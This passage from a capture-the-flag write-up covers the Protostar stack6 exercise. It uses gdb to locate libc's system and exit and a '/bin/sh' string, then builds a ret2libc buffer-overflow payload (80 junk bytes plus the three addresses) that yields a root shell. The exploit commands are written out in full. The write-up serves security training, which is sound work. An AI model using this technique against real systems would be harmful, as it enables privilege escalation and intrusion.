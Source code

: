 There is a lot of output, but when searching through we can find that the
environment contains our SHELL, with it's path, all on the stack! Let's take the
value **0xbffff9b3** and add 6.

```
(gdb) x/s 0xbffff9b3
0xbffff9b3:	 "SHELL=/bin/sh"
(gdb) x/s 0xbffff9b3+6
0xbffff9b9:	 "/bin/sh"
```

The address of our shell string is thus **0xbffff9b9**.

Now, last but not least, let's find the address of our libc functions:

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

Easy, eh? :D

Let's recap:
  - address of system: **0xb7ecffb0**
  - address of exit: **0xb7ec60c0**
  - address of shell string: **0xbffff9b9**
  - offset of the Return Address: **80**

Our payload should thus be in the following format:

```
'A' * 80 + <address of system> + <address of exit> + <address of shell string>
```

> Note: 'A' can be anything, just need junk to fill up the first 80 bytes.

Here's my exploit:

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'A' * 80 + '\xb0\xff\xec\xb7' + '\xc0\x60\xec\xb7' + '\xb9\xf9\xff\xbf'" > /tmp/stack6.pwn
user@protostar:/opt/protostar/bin$ (cat /tmp/stack6.pwn; cat) | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAAAAAAA�����`췹���

whoami
root
```

We have a root shell :D

## stack7

### Description

https://exploit-exercises.com/protostar/stack7/
